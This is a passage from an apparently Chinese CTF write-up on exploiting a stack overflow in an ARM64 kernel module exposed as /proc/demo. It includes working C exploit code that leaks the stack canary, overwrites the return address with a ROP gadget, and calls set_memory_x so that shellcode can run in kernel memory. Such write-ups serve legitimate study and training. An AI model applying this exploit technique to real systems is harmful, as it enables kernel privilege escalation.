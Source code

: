 所以应该就可以通过set_memory_x由ROP过渡到shellcode了！

#### ROP调试

之前已经确定demo_buf这段内存本身会拷贝到栈上引发栈溢出，并且其在内核地址为固定为0xffff800000e42388，所以这片内存理所应当可以被我们放置shellcode。比赛时我使用了这条gadget：

```c
0xffff80000884cc5c: mov x1, x8; mov x0, x9; blr x10; ldp x29, x30, [sp], #0x10; ret; 
```

所以ROP如下，ret地址要不想算可以调一下：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200];

    int f = open("/proc/demo",O_RDWR);

    // leak canary
    read(f,buf,0x100);
    long long canary =  *(long long *)(buf+128);
    printf("[+] canary: %llx\n",canary);

    for(int i=0;i<0x200;i+=8){
        *(long long *)(exp+i) = i;
    }

    *(long long *)(exp+128) = canary;
    
    /*
    panic:
    [    6.324054] x11: 00000000000001f8 x10: 00000000000001f0 x9 : 00000000000001e8
    [    6.324288] x8 : 00000000000001e0 x7 : 00000000000001d8 x6 : 00000000000001d0 
    
    ROP:
    0x0884cc5c: mov x1, x8; mov x0, x9; blr x10; ldp x29, x30, [sp], #0x10; ret; 

    /home/pwn # cat /proc/kallsyms | grep set_memory_x
    ffff800008030948 T set_memory_x
    */
   
    *(long long *)(exp+0x90)  = 0xffff80000884cc5c;  // rop gadget

    *(long long *)(exp+0x1e8) = 0xffff800000e42388;  // x9 -> x0
    *(long long *)(exp+0x1e0) = 1;                   // x8 -> x1    
    *(long long *)(exp+0x1f0) = 0xffff800008030948;  // set_memory_x

    write(f,exp,0x200);
}
```
